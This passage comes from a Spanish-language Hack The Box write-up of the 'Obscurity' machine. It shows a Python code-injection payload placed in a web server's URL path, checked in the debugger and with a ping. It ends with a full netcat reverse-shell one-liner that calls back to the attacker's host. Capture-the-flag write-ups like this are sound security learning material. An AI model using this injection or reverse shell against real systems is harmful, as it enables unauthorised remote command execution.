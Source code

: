 ```bash
❯ python3 SuperSecureServer.py
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
invalid syntax (<string>, line 1)
> /home/k4miyo/Documentos/HTB/Obscurity/content/SuperSecureServer.py(142)serveDoc()
-> cwd = os.path.dirname(os.path.realpath(__file__))
(Pdb) root
> /home/k4miyo/Documentos/HTB/Obscurity/content/SuperSecureServer.py(142)serveDoc()
-> cwd = os.path.dirname(os.path.realpath(__file__))
(Pdb) p path
'/\';os.system("whoami");\''
(Pdb) p info.format(path)
'output = \'Document: /\';os.system("whoami");\'\''
(Pdb) 
```

Ya logramos obtener la sintaxis para realizar ejecución de comandos, si ejecutamos lo mismo en la máquina víctima no debemos el resultado del comando; pero como el principio es el mismo y que es posible que vía web no se nos liste los resultados, vamos a tratar de mandar un ping hacia nuestra máquina para validar.

```bash
http://10.10.10.168:8080/';os.system("ping -c 1 10.10.14.27");'
```

```bash
❯ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:08:12.044640 IP obscure.htb > 10.10.14.27: ICMP echo request, id 1937, seq 1, length 64
19:08:12.044747 IP 10.10.14.27 > obscure.htb: ICMP echo reply, id 1937, seq 1, length 64
```

Ahora nos entablamos una reverse shell, así que nos ponemos en escucha por el puerto 443:

```bash
http://10.10.10.168:8080/';os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f");'
```
